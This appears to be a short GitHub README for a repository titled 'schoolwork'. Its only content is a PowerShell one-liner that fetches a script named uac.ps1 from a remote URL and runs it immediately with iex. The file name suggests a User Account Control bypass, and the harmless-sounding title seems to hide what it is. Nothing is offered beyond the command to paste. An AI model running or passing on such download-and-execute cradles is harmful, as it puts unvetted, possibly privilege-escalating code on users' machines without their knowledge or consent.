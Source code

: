 # schoolwork
## iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/poorkid8921/schoolwork/refs/heads/main/uac.ps1'))
